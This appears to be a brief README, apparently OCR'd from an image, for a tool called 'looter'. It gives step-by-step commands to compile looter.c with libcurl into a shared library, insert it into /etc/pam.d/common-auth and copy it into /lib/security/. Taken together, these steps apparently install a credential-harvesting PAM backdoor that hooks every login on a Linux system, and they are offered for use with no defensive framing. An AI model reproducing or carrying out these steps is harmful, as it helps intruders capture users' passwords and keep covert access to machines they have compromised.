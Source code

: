 # Step One

compile : gcc  -Wall -fPIC -shared -Xlinker -x -o looter.so looter.c -lcurl

# Step Two
in /etc/pam.d/common-auth add :

```bash
auth optional looter.so

account optional looter.so
```

## Step Three

then put the looter.so into /lib/security/

## relation:

libcurl4-openssl-dev
libpam0g-dev

